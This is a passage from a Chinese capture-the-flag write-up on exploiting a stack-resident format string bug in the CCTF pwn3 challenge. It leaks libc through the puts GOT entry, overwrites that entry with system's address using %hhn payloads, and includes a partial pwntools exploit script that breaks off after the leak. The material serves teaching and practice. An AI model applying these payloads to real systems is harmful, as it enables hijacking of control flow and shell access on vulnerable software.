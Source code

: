<br>

**4、有binary且格式化字符串在栈中**



由于格式化字符串就保存在栈中，可以比较方便地利用%n来写入数据以修改控制流，以下分别给出32bit环境下和64bit环境下的例子。

**4.1 CCTF-pwn3**

本题只有NX一个安全措施，且为32位程序。

通过IDA逆向及初步调试，可以知道以下两点。

用户名是“sysbdmin”字符串中每个字母的ascii码减1，即rxraclhm；

在打印（即get功能，sub_080487F6函数）put（本程序功能，不是libc的puts）上去的文件内容时存在格式化字符串漏洞，且格式化字符串保存在栈中，偏移为7。

主要利用思路就是先通过格式化字符串漏洞泄露出libc版本，从而得到system函数调用地址；然后将该地址写到puts函数GOT表项中，由于程序dir功能会调用puts，且调用参数是用户可控的，故当我们以“/bin/sh”作为参数调用puts（也就是dir功能）时，其实就是以“/bin/sh”为参数调用system，也就实现了getshell。

接下来，简要介绍一下具体的利用过程。

首先，需要通过格式化字符串漏洞泄漏libc地址信息，间接得到libc版本。

[![](./img/85785/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01db618865fe3400f9.png)

上图是sub_080487F6函数中存在格式化字符串漏洞的printf调用前的状况。左下角数据区的红框表明了触发脆弱性的过程，即要先put上去一个文件名和对应的文件内容，然后通过get功能触发脆弱性（再次触发漏洞也要经历这个过程）。而右下角栈区的紫色框是偏移7，保存着我们输入的内容。如果我们输入的内容是puts函数的GOT地址，则通过%s参数就能利用漏洞打印出GOT表项中保存的puts函数的实际调用地址，之前puts函数已被程序调用多次了。这样，我们就可以通过puts函数实际地址的后12bit来查找libc-database，从而获得具体的libc库版本，以及对应的system的实际调用地址，具体方式我放到第三个例子中来讲，大家也可以先跳过去看。

然后，我们要将system的实际调用地址覆写到puts的GOT处，这就要用到%n参数了。假设system函数的地址为0xb7553d00，那么我们可以1个字节1个字节地覆写，以防止一次print字符太多而导致程序崩溃。以上面地址为例，三次覆写的payload是这样的，0xb7不用覆写，与puts一样。

```
payload = p32(putsGOT)+"%"+str(256-4)+"x%7$hhn"
payload = p32(putsGOT+1)+"%"+str(((systemAddress&amp;0x0000FF00)&gt;&gt;8)-4)+"x%7$hhn"
payload = p32(putsGOT+2)+"%"+str(((systemAddress&amp;0x00FF0000)&gt;&gt;16)-4)+"x%7$hhn"
```

比较特殊的是第一次覆写，要写入的是0x00，我们打印256（0x100）字节的话，正好实现了0x00的写入。而后面两次覆写只需要注意将puts函数的GOT地址加1就可以实现覆写一字节了。

最后，我们通过调用dir功能来实现system的间接调用。需要注意的是，dir功能是利用puts函数来打印已输入的所有文件名字符串拼接后的结果。如果想实现system(“/bin/sh”)，就需要让前几次输入的文件名拼接之和正好是“/bin/sh”。具体漏洞利用代码如下。

```
from pwn import *
import binascii
def put(name, content):
    p.sendline("put")
    print p.recvuntil(":")
    p.sendline(name)
    print p.recvuntil(":")
    p.sendline(content)
    print p.recvuntil("&gt;")
def get(name):
    p.sendline("get")
    print p.recvuntil(":")
    p.sendline(name)
    data = p.recvuntil("&gt;")
    print hexdump(data)
    return data
p = process("./pwn3")
elf = ELF("./pwn3")
putsGOT = elf.got['puts']
mallocGOT = elf.got['malloc']
print "----------1. leak address----------"
print p.recvuntil(":")
p.sendline("rxraclhm")
print p.recvuntil("&gt;")
put("/sh", p32(putsGOT)+".%7$s")
data = get("/sh")
```